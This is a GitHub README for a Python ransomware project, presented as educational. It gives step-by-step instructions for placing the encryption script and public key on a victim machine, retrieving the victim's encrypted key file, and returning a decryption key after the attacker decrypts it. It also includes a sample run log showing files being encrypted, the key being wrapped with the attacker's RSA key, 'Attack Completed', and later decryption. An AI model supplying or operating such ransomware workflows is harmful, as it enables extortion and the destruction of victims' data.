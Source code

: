 # Ransomware-in-Python

[![made-with-python](https://img.shields.io/badge/Made%20With-Python-success)](https://www.python.org/)

Ransomeware in Python (for Educational Purposes Only)

## How To Make This Work ?

![](https://raw.githubusercontent.com/whokilleddb/Ransomware-in-Python/main/Images/Ransomware.png)

* First Generate A **RSA Key Pair** Using The [Key Generation Script](https://github.com/whokilleddb/Ransomware-in-Python/blob/main/keyGen.py)

* Transfer the **Public Key (public.pem)** And The [Ransomware Script](https://github.com/whokilleddb/Ransomware-in-Python/blob/main/Ransomware.py)

* Transfer Over The **EMAIL_Me.txt** Stored Under The Desktop Directory Of The Current User To The Attacker

* Decrypt The **EMAIL_Me.txt** Using The **Private RSA Key (.private.pem)** Via The Same Key Generation Script](https://github.com/whokilleddb/Ransomware-in-Python/blob/main/keyGen.py)

* A Text File Called **PUT_ME_ON_DESKTOP.txt** Is Generated 

* Transfer Over **PUT_ME_ON_DESKTOP.txt** To The Victim And Place It In The Desktop Folder

* BOOM ! The Files Are Decrypted Back !


### Sample Output On A Bodhi Linux :

```
bodhi@bodhi-32 ~/Ransomware> python3 Ransomware.py 
[+] Victim Is Running A Linux Environment
[+] System Root Found At : /home/bodhi
[+] Local Root Found At : /home/bodhi/Ransomware
[+] Public IP Of Victim : 202.142.107.55
[+] Generated Fernet Key As : b'UEoMPNynUBdfDAePrdXa7oYOM30Fd8dtD6X53EO0rIo='
[+] Created Crypter As : <cryptography.fernet.Fernet object at 0xb682958c>
[+] Crypter Object In Use : <cryptography.fernet.Fernet object at 0xb682958c>
/home/bodhi/Ransomware/test.txt is Being Encrypted 
/home/bodhi/Ransomware/test.txt Has Been Encrypted 
[+] Crypter Object In Use : <cryptography.fernet.Fernet object at 0xb682958c>
/home/bodhi/Ransomware/test.pdf is Being Encrypted 
/home/bodhi/Ransomware/test.pdf Has Been Encrypted 
[+] Wrote Fernet Key Into : fernet_key.txt
[+] Read Fernet Key From fernet_key.txt
[+] Read Public Key From public.pem As <_RSAobj @0xb701dd8c n(2048),e>
[+] Encrypted fernet_key.txt With Attacker's Public RSA Key
[+] Creted EMAIL_ME.txt at /home/bodhi/Desktop 
[+] Nullified Key as b'PJ(\x15\x05\xf2\x83\xfcC\x99\x98J\x1b\xf1t\xf5\xac\xa2\xd3(\xb7\xdbO\xe4\xc4\x9d\xf2\xa9\xf1\xbb\xcb\x17\xe5\xf4\'.H\x93\xae\xedsC\xb8\xd9\x94\x1a\xb8z\xfb\xdbb\xad\x9b\xfd\xf3|\xcar\xc3r\xf5-\xd8\xdd\xc4C[Vj\xc5f\xd4\x93\x85E"\x19\xf2\x9b\x89\xf7\xe7\x8c\xb6\xd8\xfack\x7fX\x81)L9\\<b\x1a\x0c\xce\x1e\xc3\x94\xfd\xd2\x1f\xc5\xee\x06\xd0\xdd\r\x83\x9e\xe071\xfa\x89\x83\x07\xf4\xc3VN\xdfU\x1e\xd0\n\xad["\xef\xd2aR\xe3\xad\x19\xa0\xd3"\x1f \\4\x0eCbs\xc1\xd9~\xb5\xca\x7f\xd7\xa6\x99~\x9e\xda\x17\xc4\r\xeb\xddT\xce\xb7R\xe2S\xf6\xa0\x18h\r\xf7\xde)\x83\xb6>\xe2\xee,\xe9\xf2\xb0\xb4\xedj\x19\xd1\x88\xf0\xe5j\xca\xf5\xcaa&\x0b\x87\xb08\xdc\xb7A\x1c\x9d2~\x11\xdc\x9f\x16M\xfd\xc18\x81f\xe4\xb0\x80\xbbG\xd8\xd3M\x04j\xf7d\'\xf3^\x05| \xdb\xf01\x92\xe6U\x86C\x8b,S\xc4'
[+] Nullified Crypter Object as None
 > Target Encrypted
 > Attack Completed
[-] Exception Rose As : 
[Errno 2] No such file or directory: '/home/bodhi/Desktop/PUT_ME_ON_DESKTOP.txt'

** (epiphany:4564): WARNING **: 01:00:39.767: webkit_web_context_set_web_process_count_limit is deprecated and does nothing. Limiting the number of web processes is no longer possible for security reasons

** (epiphany:4564): CRITICAL **: 01:00:39.769: void webkit_web_context_register_uri_scheme(WebKitWebContext*, const char*, WebKitURISchemeRequestCallback, gpointer, GDestroyNotify): assertion 'g_ascii_strcasecmp(scheme, "ftp") != 0' failed
Error sending IPC message: Broken pipe
[-] Exception Rose As : 
[Errno 2] No such file or directory: '/home/bodhi/Desktop/PUT_ME_ON_DESKTOP.txt'
[-] Exception Rose As : 
[Errno 2] No such file or directory: '/home/bodhi/Desktop/PUT_ME_ON_DESKTOP.txt'
[+] Read Key From /home/bodhi/Desktop/PUT_ME_ON_DESKTOP.txt As UEoMPNynUBdfDAePrdXa7oYOM30Fd8dtD6X53EO0rIo=
[+] New Cryptor Object Created As : <cryptography.fernet.Fernet object at 0xb71269ac>
[+] Crypter Object In Use : <cryptography.fernet.Fernet object at 0xb71269ac>
/home/bodhi/Ransomware/test.txt is Being Decrypted 
/home/bodhi/Ransomware/test.txt Has Been Decrypted 
[+] Crypter Object In Use : <cryptography.fernet.Fernet object at 0xb71269ac>
/home/bodhi/Ransomware/test.pdf is Being Decrypted 
/home/bodhi/Ransomware/test.pdf Has Been Decrypted 
```
